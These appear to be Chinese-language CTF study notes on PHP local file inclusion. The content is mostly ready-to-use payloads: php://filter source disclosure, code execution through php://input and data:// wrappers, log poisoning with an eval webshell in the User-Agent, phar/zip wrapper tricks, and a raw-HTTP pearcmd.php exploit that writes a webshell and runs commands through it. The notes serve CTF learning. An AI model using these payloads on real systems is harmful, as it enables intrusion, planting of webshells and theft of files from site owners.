 allow_url_include=off默认关闭，开发者使用文件包含往往会开启
allow_url_fopen=on默认开启，一般不用管
<https://blog.csdn.net/weixin_44508748/article/details/108162951>

^
## **php伪协议 文件包含读本地php文件源代码**
```
include xx;
@include(xx);
include php://filter/read=convert.base64-encode/resource=flag.php

包含返回flag.php文件源码字符串的是base64编码内容
进行一次base64解码即可看到源代码

如果是根据名称匹配包含php文件
只需要把名称参数换成php://filter/read=convert.base64-encode/resource=flag即可。

也可中间加个index等字符也可以。
php://filter/read=convert.base64-encode/index/resource=flag
```

^
## **php伪协议 文件包含注入php的php代码**

1. php://input 自动包含POST请求体(需要第一allow_url_include开启)

```
include php://input
post请求的请求体参数xx=<?php system(); ?>
请求体直接就一个<?php system(); ?>也可。

如：
?file=Php://input  这里大写可以绕过过滤php
再post：<?php system("tac flag.php");?>

```

2. data://text/plain直接包含代码内容:(需要两个allow开启)
```
include data://text/plain,<?php phpinfo(); ?>

file_get_contents('data://text/plain,welcome to the zjctf','r')
即为welcome to the zjctf

file_get_contents($_GET['2333']) === 'todat is a happy day'
则?2333=data://text/plain;base64,dG9kYXQgaXMgYSBoYXBweSBkYXk=


代码执行获取flag
payload：
?c=data://text/plain,<?php system('cat f*');?>
?c=data://text/plain,<?=system("tac%20flag.php");?>

防止过滤一下：?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZionKTs/Pg==
但是结尾有.php的情况：include($c.".php"); 编码后会失效。
```

^
## **日志包含**
考伪协议也可能考日志包含
?file=/var/log/nginx/access.log
修改UA为：<?php @eval($_REQUEST[1])?>
1=system("ls");
1=system("tac fl0g.php");




^
## **php伪协议 文件包含自动解压文件再包含**
```
phar://D:/phpinfo.zip/phpinfo.txt
zip://D:\\phpinfo.jpg%23phpinfo.txt

上传了个压缩包，压缩包中phpinfo.txt中文件为<?php system($_GET[a]); ?>
```


## **pearcmd.php文件包含**
已知文件包含：include $_GET['c'].".php";
裸文件包含, 没有上传点, 可供尝试的只有pearcmd.php上传木马。
先用
```
GET /index.php?+config-create+/&c=pearcmd&/<?=@eval($_POST['cmd']);?>+/var/www/html/test.php HTTP/1.1
```
在/var/www/html下写入webshell
再
```
POST /test.php HTTP/1.1

Content-Type: application/x-www-form-urlencoded
Content-Length: 26

cmd=system("cat 36d.php");
```
也可<https://www.cnblogs.com/Egcrying/p/17665041.html>
